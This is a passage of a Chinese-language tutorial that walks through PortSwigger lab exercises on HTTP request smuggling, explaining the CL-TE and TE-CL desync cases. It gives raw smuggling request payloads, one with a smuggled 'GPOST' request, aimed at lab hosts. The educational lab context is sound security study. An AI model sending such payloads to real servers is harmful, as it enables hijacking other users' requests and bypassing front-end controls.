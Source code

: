 以上 6 个字节为请求 A 的 body，会将这个请求 A 当作一个完整的请求转发到后端，而当 Backend 服务器优先以 TE 处理时，会认为

```plain
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0
```

这个是一个完整的，单独的请求，而

```plain
G
```

这个他会视为一个不完整的请求，所以就造成了 1/2 B 请求的产生，于是会在 Backend 服务器缓冲区处等待其他数据的到来以使得将 1/2 B 拼接成一个完整的请求，当我们发送第二遍请求的时候，POST 会拼接到 G 后面，所以 HTTP Method 会变成 GPOST 方法，也就是我们看到的得到的回显，无法识别的 HTTP Method GPOST。

### TE-CL

接下来我们来看 TE-CL 的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

> This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-CL 的场景。

```plain
POST / HTTP/1.1
Host: acde1ffc1f047f9f8007186200ff00fe.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1
0
```

这里需要注意的是最后需要加两个 CRLF 构造 chunk data，也就是

```plain
0\r\n
\r\n
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包即可，我们可以收到如下图所示的响应。
